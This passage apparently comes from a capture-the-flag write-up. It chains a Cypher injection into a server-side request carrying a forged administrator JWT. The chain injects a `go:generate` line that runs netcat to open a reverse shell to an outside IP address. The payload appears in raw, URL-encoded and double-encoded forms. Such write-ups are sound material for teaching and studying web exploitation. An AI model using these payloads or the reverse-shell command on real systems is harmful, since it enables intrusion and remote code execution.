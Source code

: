 Now to build the final payload. We can set the `server_url` payload as above and thankfully the `@administrator_middleware` has been configured to also accept the JWT token as a HTTP GET parameter  (`jwt_cookie = request.cookies.get("jwt") or request.args.get("token")`), so we provide that also. This gives us a Cypher Injection payload as follows:

```
query=' OR 1=1 WITH 1 as _l00 CALL dbms.procedures() yield name LOAD CSV FROM 'http://127.0.0.1:1337/panel/server?server_url="\n//go:generate nc 139.162.169.46 4567 -e /bin/sh\n//&token=eyJhbGciOiJSUzI1NiIsImprdSI6Imh0dHBzOi8vMmMwNC04Mi0xMS0yMjktNTgubmdyb2stZnJlZS5hcHAvYWJjZGVmIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImhhY2tlZCIsImFjY291bnRfdHlwZSI6ImFkbWluaXN0cmF0b3IifQ.CZ6cSbrA8HHc8y8s1gnNolL3Oe4oUcPPTSCMNiPNQF6VpUsFwoHPgMv_V5RwgDcND17Dqolr5G1lRwUdhzj-SGzm3yymwdB-LTWVLu7FQrnVzj1yIjgJRDWoFZJDQI4m4Jp44VQW24KuKneCuVGRFu86DUMFnyCwjDZB-lK-YPPLia4q2yQGSER9PHSD6aYCTIF8ksNbpJcHTRfjTf10UPIeFS35itfyYV4z6R-X6IG2FKgJIVkNPb5rwmIp5J4-inruCTa2-YiXmJWgAY-EGFepRkb1iA2_X-oBxnSgvHB_RYoBIDxpnz7_qr3XWxiLvHQYqhgfmCHFPNivSTIIfg' as l RETURN 1 as identifier1,2 as identifier2/*
```

Note however that we will need to URL encode the `server_url` value twice, once for POST body to `/panel/network` for the cypher injection, and then again for the SSRF to `/panel/server`. 

```
# URL Encode server_url
query=' OR 1=1 WITH 1 as _l00 CALL dbms.procedures() yield name LOAD CSV FROM 'http://127.0.0.1:1337/panel/server?server_url=%22%0A%2F%2Fgo%3Agenerate%20nc%20139%2E162%2E169%2E46%204567%20%2De%20%2Fbin%2Fsh%0A%2F%2F&token=eyJhbGciOiJSUzI1NiIsImprdSI6Imh0dHBzOi8vMmMwNC04Mi0xMS0yMjktNTgubmdyb2stZnJlZS5hcHAvYWJjZGVmIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImhhY2tlZCIsImFjY291bnRfdHlwZSI6ImFkbWluaXN0cmF0b3IifQ.CZ6cSbrA8HHc8y8s1gnNolL3Oe4oUcPPTSCMNiPNQF6VpUsFwoHPgMv_V5RwgDcND17Dqolr5G1lRwUdhzj-SGzm3yymwdB-LTWVLu7FQrnVzj1yIjgJRDWoFZJDQI4m4Jp44VQW24KuKneCuVGRFu86DUMFnyCwjDZB-lK-YPPLia4q2yQGSER9PHSD6aYCTIF8ksNbpJcHTRfjTf10UPIeFS35itfyYV4z6R-X6IG2FKgJIVkNPb5rwmIp5J4-inruCTa2-YiXmJWgAY-EGFepRkb1iA2_X-oBxnSgvHB_RYoBIDxpnz7_qr3XWxiLvHQYqhgfmCHFPNivSTIIfg' as l RETURN 1 as identifier1,2 as identifier2/*

# URL Encode everything
query=%27%20OR%201%3D1%20WITH%201%20as%20%5Fl00%20CALL%20dbms%2Eprocedures%28%29%20yield%20name%20LOAD%20CSV%20FROM%20%27http%3A%2F%2F127%2E0%2E0%2E1%3A1337%2Fpanel%2Fserver%3Fserver%5Furl%3D%2522%250A%252F%252Fgo%253Agenerate%2520nc%2520139%252E162%252E169%252E46%25204567%2520%252De%2520%252Fbin%252Fsh%250A%252F%252F%26token%3DeyJhbGciOiJSUzI1NiIsImprdSI6Imh0dHBzOi8vMmMwNC04Mi0xMS0yMjktNTgubmdyb2stZnJlZS5hcHAvYWJjZGVmIiwidHlwIjoiSldUIn0%2EeyJ1c2VybmFtZSI6ImhhY2tlZCIsImFjY291bnRfdHlwZSI6ImFkbWluaXN0cmF0b3IifQ%2ECZ6cSbrA8HHc8y8s1gnNolL3Oe4oUcPPTSCMNiPNQF6VpUsFwoHPgMv%5FV5RwgDcND17Dqolr5G1lRwUdhzj%2DSGzm3yymwdB%2DLTWVLu7FQrnVzj1yIjgJRDWoFZJDQI4m4Jp44VQW24KuKneCuVGRFu86DUMFnyCwjDZB%2DlK%2DYPPLia4q2yQGSER9PHSD6aYCTIF8ksNbpJcHTRfjTf10UPIeFS35itfyYV4z6R%2DX6IG2FKgJIVkNPb5rwmIp5J4%2DinruCTa2%2DYiXmJWgAY%2DEGFepRkb1iA2%5FX%2DoBxnSgvHB%5FRYoBIDxpnz7%5Fqr3XWxiLvHQYqhgfmCHFPNivSTIIfg%27%20as%20l%20RETURN%201%20as%20identifier1%2C2%20as%20identifier2%2F%2A
```

With this we a finally ready to perform the exploit. We start a local netcat listener on port 1234 and send the above payload to `/panel/network`.

[![](assets/image/attachments/polaris_rce_proof.png)](assets/image/attachments/polaris_rce_proof.png){:.glightbox}
